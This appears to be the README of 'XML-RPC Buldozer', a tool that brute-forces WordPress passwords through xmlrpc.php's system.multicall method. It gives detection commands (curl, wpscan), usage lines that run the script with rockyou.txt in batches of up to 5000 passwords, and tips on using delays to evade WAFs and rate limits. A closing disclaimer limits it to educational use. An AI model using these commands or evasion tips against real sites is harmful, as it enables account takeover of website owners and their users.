 ```markdown
# 🐍 XML-RPC Buldozer

M
## 🔍 What's XML-RPC?

WordPress exposes an API called `XML-RPC` via the endpoint:

```
https://target.com/xmlrpc.php
```

This interface allows external apps to manage the blog remotely (like posting articles, uploading files, retrieving comments, etc).

It supports a special method:

```xml
system.multicall
```

Which allows multiple method calls in a **single XML request** — ideal for bruteforce attacks.

---

## 🕵️ How to detect if XML-RPC is enabled?

1. Try a direct POST to `/xmlrpc.php` with minimal content:
```bash
curl -X POST https://target.com/xmlrpc.php -d "<?xml version='1.0'?><methodCall><methodName>demo.sayHello</methodName></methodCall>"
```

2. Use tools like `wpscan`:
```bash
wpscan --url https://target.com --enumerate
```

If you get a response like `XML-RPC seems to be enabled`, you’re good to go 🚀

---

## ⚙️ Features

- Bruteforce using `system.multicall`
- Large batch support (e.g. 5000 passwords/request)
- Start from a specific line in the wordlist
- Proxy support (Burp, ZAP, etc)
- Delay between batches
- Automatic escape of XML special characters
- Stop on first success

---

## 🚀 Usage

```bash
python3 bruteforce.py --user <username> --wordlist <file> [OPTIONS]
```

### ✅ Basic Example

```bash
python3 bruteforce.py --user admin --wordlist rockyou.txt
```

### ✅ Full Options

```bash
python3 bruteforce.py \
  --user admin \
  --wordlist rockyou.txt \
  --url https://target.com/xmlrpc.php \
  --batch 5000 \
  --delay 30 \
  --startfrom 100000 \
  --proxy http://127.0.0.1:8080 \
  --stop-on-success
```

---

## 💡 Tips

- Default `batch` size is 20 — you can go up to 5000+ safely
- Combine with `--startfrom` for resume
- Use `--delay` to avoid triggering WAFs or rate-limits
- Add Burp with `--proxy http://127.0.0.1:8080` to inspect each call
- Works great with huge files (14M+ passwords)

---

## ⚠️ Legal Disclaimer

This tool is provided for **educational purposes** only.  
Do **NOT** use it on websites you do not own or have explicit permission to test.  
The author is not responsible for any misuse or damage caused.

---

## 📦 License

MIT

